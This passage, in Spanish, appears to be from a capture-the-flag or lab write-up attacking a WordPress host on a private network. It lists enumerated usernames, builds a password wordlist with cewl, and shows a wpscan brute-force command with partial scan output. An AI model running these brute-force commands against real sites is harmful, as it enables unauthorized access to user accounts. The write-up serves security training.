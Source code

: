 ```
[+] Requests Done: 82
[+] Cached Requests: 11
[+] Data Sent: 19.71 KB
[+] Data Received: 22.896 MB
[+] Memory used: 204.625 MB
[+] Elapsed time: 00:00:05
```

Vemos que hemos obtenido algunos nombre de usuarios, por lo que vamos a pontarnos una lista de usuarios de esta forma:

## Credentials WordPress gill

> users.txt

```
abuzerkomurcu
gill
collins
satanic
gadd
```

Tambien vamos a generar un diccionario de palabras de la propia pagina del `wordpress` a ver que encontramos.

```shell
cewl http://<IP>/ -w pass.txt
```

Ahora vamos a tirar un ataque de fuerza bruta contra dichos usuarios y contraseñas.

```shell
wpscan --url http://<IP>/ --usernames users.txt --passwords pass.txt
```

Info:

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.5.29/ [192.168.5.29]
[+] Started: Mon May 26 03:21:57 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.38 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.5.29/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
```